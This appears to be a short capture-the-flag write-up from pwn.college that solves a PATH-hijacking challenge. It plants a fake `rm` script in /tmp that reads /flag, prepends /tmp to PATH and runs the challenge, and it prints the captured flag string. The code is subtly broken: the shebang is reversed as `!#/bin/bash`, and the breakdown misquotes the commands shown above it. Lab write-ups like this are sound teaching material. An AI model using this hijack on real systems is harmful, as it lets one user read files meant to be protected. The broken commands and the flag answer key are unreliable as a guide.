 ### Hijacking Commands 

Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the `rm` command. But unlike before, it will _not_ print anything out for you.

How can you solve this? You know that `rm` is searched for in the directories listed in the `PATH` variable. You have experience creating the `win` command when the previous challenge needed it. What else can you create?

**flag:** `pwn.college{YzDL75kWzJOTS8gE3AOQBjkSqbF.QX3cjM1wyNwkzNyEzW}`

Command used: 

`echo "!#/bin/bash" >> /tmp/rm`

`echo "cat /flag" >> /tmp/rm`

`chmod +x /tmp/rm`

`export PATH="/tmp:$PATH"`

`/challenge/run`

Breakdown: 
- `echo "!#/bin/bash\ncat /flag >> /tmp/rm` -> writes output of echo to the file `/tmp/rm`
- `chmod +x /tmp/rm`  -> Made the file executable 
- `export PATH="/tmp:$PATH"` -> Wrote to PATH 
- Ran `/challenge/run` to get the flag

